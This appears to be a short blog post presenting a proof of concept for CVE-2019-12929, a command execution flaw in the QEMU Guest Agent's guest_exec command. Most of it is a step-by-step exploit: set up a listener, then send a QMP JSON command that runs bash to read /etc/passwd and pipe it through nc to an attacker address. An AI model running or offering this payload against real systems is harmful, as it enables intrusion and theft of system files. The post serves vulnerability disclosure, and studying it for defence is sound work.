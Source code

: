 ```yaml
---
layout: post
title: "[CVE-2019-12929] QEMU Guest Agent guest_exec Remote Command Execution"
excerpt: "Unsanitized command execution."
modified: 2019-06-06
categories: proof-of-concept
tags: ["qemu"]
comments: true
---
```


# Overview
The QMP **guest_exec** command in QEMU 4.0.0 and earlier is prone to OS command injection, which allows the attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU Guest Agent service
2nd, open another console and setup a listener to port 9999
3rd, connect to the target and enter the following commands:

{% highlight json %}
{'execute':'guest-exec','arguments':{'path':'/bin/bash','arg': ['-c', 'cat /etc/passwd | nc <attacker_ip> 9999']}}
{% endhighlight %}
